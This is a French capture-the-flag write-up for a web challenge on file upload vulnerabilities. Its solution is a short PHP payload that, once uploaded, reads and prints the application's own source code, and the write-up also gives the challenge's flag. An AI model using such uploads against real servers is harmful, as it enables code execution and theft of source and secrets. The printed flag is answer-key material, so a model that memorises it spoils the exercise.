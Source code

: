 # File upload vulnerability 1

> web

Author: [Alexandre-Xavier Labonté-Lamoureux (AXDOOMER)](https://github.com/axdoomer)

Les vulnérabilités de téléversement de fichier permettent d'exécuter son propre code sur un serveur web. La vulnérabilité existe lorsque les fichiers téléversés ne sont pas bien filtrés. Par exemple, un site peut permettre que de téléverser des images. Cependant, si les restrictions ne sont pas implémentées de façon rigoureuse dans l'application, il serait possible de téléverser des fichiers PHP avec notre propre code. 

Le flag se cache dans le code source de l'application. Effectuez une lecture du code source en exploitant cette vulnérabilité. 

## Setup

Requirements:
- BurpSuite

# Writeup

Vous devez utiliser un script PHP comme celui-ci:

```
<?php
echo base64_encode(file_get_contents("../../index.php"));
?>
```

La conversion en Base64 n'est pas nécessaire, car lorsque le fichier PHP sera interprété, le flag qui est en commentaire dans le code source et se retrouvera affichée lorsqu'on fera Ctrl+U. 

Flag: `flag-1515acf36a29a4ca7fb913ef9b6d01c2`
